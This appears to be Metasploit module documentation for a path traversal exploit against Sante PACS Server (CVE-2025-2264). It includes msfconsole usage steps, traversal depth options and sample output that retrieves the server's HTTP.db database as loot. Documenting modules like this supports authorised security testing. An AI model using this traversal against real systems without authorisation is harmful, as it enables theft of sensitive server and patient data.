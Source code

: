 ## Vulnerable Application

This module exploits a path traversal vulnerability in Sante PACS Server <= v4.1.0 (CVE-2025-2264) to read arbitrary files from the system.

## Testing

The software can be obtained from
[the vendor](https://www.santesoft.com/win/sante-pacs-server/download.html).

By default, the server listens on TCP port 3000 on all network interfaces.

**Successfully tested on**

- Sante PACS Server v4.1.0 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/pacsserver_traversal
msf6 auxiliary(gather/pacsserver_traversal) > set RHOSTS <IP>
msf6 auxiliary(gather/pacsserver_traversal) > run
```

This should return the database for the web server. Any files retrieved will
be stored as loot.

## Options

### FILE
The file to be retrieved from the file system. By default, this is the database for the web server, HTTP.db. However, any arbitrary
file can be specified.

Example: /.HTTP/HTTP.db

### DEPTH
The traversal depth. The FILE path will be prepended with /assets/ + ../ * DEPTH.

## Scenarios

Running the exploit against v4.1.0 on Windows 22H22 should result in an output similar to the following:

```
msf6 auxiliary(gather/pacsserver_traversal) > run
[*] Running module against 192.168.137.217

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] File retrieved: /assets/../../.HTTP/HTTP.db
[*] File saved as loot.
[*] Auxiliary module execution completed

```

The file will be stored as loot:

```
msf6 auxiliary(gather/upsmon_traversal) > loot

Loot
====

host             service  type                         name                                 content     info                                               path
----             -------  ----                         ----                                 -------     ----                                               ----
192.168.137.217           pacsserver.file              /.HTTP/HTTP.db                       text/plain  File retrieved through PACS Server path traversal.  /home/foo/.msf4/loot/20250502165539_default_192.168.137.217_pacsserver.file_594385.txt
```
